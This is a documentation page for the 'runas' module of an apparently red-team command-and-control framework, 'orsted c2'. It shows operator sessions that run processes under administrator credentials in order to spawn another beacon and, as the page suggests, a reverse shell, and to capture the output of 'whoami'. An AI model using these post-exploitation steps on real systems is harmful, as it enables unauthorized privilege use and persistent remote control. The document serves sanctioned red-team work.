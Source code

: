 ```yaml
---

title: runas
descripton: orsted c2 runas
---
```


### General

`runas` allows you to run processes as another user.

```
[Session 9: haroun@DESKTOP-DU89UIV] » runas --help

RunAs a process in go

Usage:
  runas [flags] username password [app...]

Args:
  username  string         Username ex. rudeus, CORP\rudeus
  password  string         Password of username
  app       string list    Application to run with its arguments

Flags:
  -h, --help              display help
  -b, --no-background     Specify to not run process in background and capture output
```

It requires you to load the `runas` dll with `load-module runas`


### Usage

By default `runas` will run whatever you give it in the background without returning any output. 

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » runas administrator administrator Z:\main_http.exe
```
This is useful when you want to run another `orsted-beacon` or a reverse shell without blocking the `orsted-beacon`.

The output will be something like:

```
[Session 9: haroun@DESKTOP-DU89UIV] » runas administrator administrator Z:\main_http.exe
+--------+-----------+---------+--------------------------------+
| TASKID | SESSIONID |  STATE  |            COMMAND             |
+--------+-----------+---------+--------------------------------+
|     90 |         9 | pending | runas background administrator |
|        |           |         | administrator Z:main_http.exe  |
+--------+-----------+---------+--------------------------------+
[Session 9: haroun@DESKTOP-DU89UIV] »
 >>> runas --background administrator administrator Z:main_http.exe
 <<<
STDOUT --->
Task Register Successufully
STDERR --->


 >>> runas --background administrator administrator Z:main_http.exe
 <<< Runned what you want in background, no output will be printed

Beacon From 192.168.122.76 - DESKTOP-DU89UIV - DESKTOP-DU89UIV\Administrator - windows
```

### Usage with `--no-background`

Sometimes, you need to capture the output of the command. This is when the flag `--no-background` can be useful.

```powershell
[Session 9: haroun@DESKTOP-DU89UIV] » runas --no-background  administrator administrator whoami
```

The result will be something like

```
[Session 9: haroun@DESKTOP-DU89UIV] » runas --no-background  administrator administrator whoami
+--------+-----------+---------+--------------------------------+
| TASKID | SESSIONID |  STATE  |            COMMAND             |
+--------+-----------+---------+--------------------------------+
|     92 |         9 | pending | runas no-background            |
|        |           |         | administrator administrator    |
|        |           |         | whoami                         |
+--------+-----------+---------+--------------------------------+
[Session 9: haroun@DESKTOP-DU89UIV] »
 >>> runas --no-background administrator administrator whoami
 <<<
STDOUT --->
Task Register Successufully
STDERR --->


 >>> runas --no-background administrator administrator whoami
 <<< Created C:\Windows\system32\whoami.exe whoami  process with an ID of 1564
desktop-du89uiv\administrator
```
